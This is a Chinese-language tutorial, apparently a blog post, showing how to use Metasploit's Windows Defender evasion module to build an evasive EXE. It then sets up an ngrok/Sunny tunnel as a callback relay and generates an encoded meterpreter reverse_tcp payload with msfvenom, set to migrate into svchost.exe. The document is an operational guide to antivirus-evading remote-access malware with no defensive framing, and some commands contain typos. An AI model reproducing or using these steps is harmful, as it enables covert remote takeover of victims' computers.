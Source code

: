 **首先我们使用规避模块生成一个**Windows EXE**文件来规避**Windwos Defender**程序，操作如下：**
```sh
show evasuibd
```
![image-20230527100354377](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271003408.png)

```sh
use windows/windows_defender_exe

show options
```

![image-20230527100506186](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271005210.png)

**接着run** **可以看到生成的****FILE NAME****（文件名是随机的）**

**当然也可以自定义** **Set FILENAME** **文件名即可**

**生成的文件保存到了**
```
/root/.msf4/local/yZdsypg.exe
```
**接下来我们来部署反弹环境**

**在**[这里](http://www.ngrok.cc)**来注册一个账户**

**登录后来到后台页面点击**

![image-20230527100520777](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271005800.png)

**当然也有免费的隧道，不过网速较慢，根据自己的情况而定！**

![image-20230527100534238](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271005258.png)

**接着我们点击立即购买，会跳转到隧道配置的页面，如图：**

![image-20230527100544553](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271005575.png)

**使用**ping**服务器地址命令，找到**IP**地址。**

![image-20230527100556789](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271005816.png)

**接着我们打开刚解压下来的文件夹**

**输入**./sunny clientid **填写你的隧道ID**

![image-20230527100606509](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271006535.png)

**出现这个界面就代表隧道连接成功！**

![image-20230527100624124](https://fastly.jsdelivr.net/gh/hack-scan/Blog-pic/posts/202305271006145.png)

**接着我们用Msfvenom生成可执行文件,代码如下：**

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=平台给出的IP LPORT=平台给出的端口 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrendMigrate=true PrendMigrateProc=svchost.exe -f exe -o /root/shell.exe
```
